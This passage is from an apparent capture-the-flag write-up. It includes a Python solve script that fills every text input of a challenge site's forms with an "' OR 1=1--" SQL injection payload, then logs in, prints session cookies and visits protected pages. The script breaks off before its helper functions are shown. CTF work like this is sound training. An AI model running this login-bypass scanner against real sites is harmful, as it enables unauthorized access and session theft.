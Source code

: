 Essentially, we can access a bunch of secret pages with different page sizes (max 20). The flag is probably one of these pages.
However, we are short on time, especially after brute-forcing the login. Luckily, the pages are static, so we can run the solve script multiple times and just change which page we start from.

##### Solve script

very big kudos to Dr. ChatGPT for cooking this solve script

```python
import asyncio
import aiohttp
from bs4 import BeautifulSoup
from urllib.parse import urljoin

BASE_URL = 'https://munintrollet-6138-allthoseforms.ept.gg'

async def test_form(session, form):
    action = form.get('action')
    if not action:
        return False
    action_url = urljoin(BASE_URL, action)

    # Collect all input fields, including hidden fields (e.g., CSRF tokens)
    inputs = form.find_all('input')
    data = {}
    for input_field in inputs:
        name = input_field.get('name')
        if not name:
            continue
        input_type = input_field.get('type', 'text')
        if input_type == 'text':
            data[name] = "' OR 1=1--"  # SQL injection payload
        elif input_type == 'password':
            data[name] = 'password'
        else:
            # Include hidden fields like CSRF tokens
            data[name] = input_field.get('value', '')

    try:
        # Send the login request
        async with session.post(action_url, data=data) as response:
            text = await response.text()
            # Check for success indicators
            if 'Welcome to Our App!' in text:
                print(f'[+] Vulnerable form found: {action_url}')
                print('[+] Logged in successfully.')

                print(text)

                # Print cookies after login
                print('[+] Cookies after login:')
                for cookie in session.cookie_jar:
                    print(cookie)

                # Access the protected endpoints after successful login
                await access_protected_area(session)
                await access_api_docs(session)  # Access the /api-docs endpoint
                return True
            else:
                print(f'[-] Login failed for form: {action_url}')
    except Exception as e:
        print(f'[-] Error with {action_url}: {e}')
    return False

```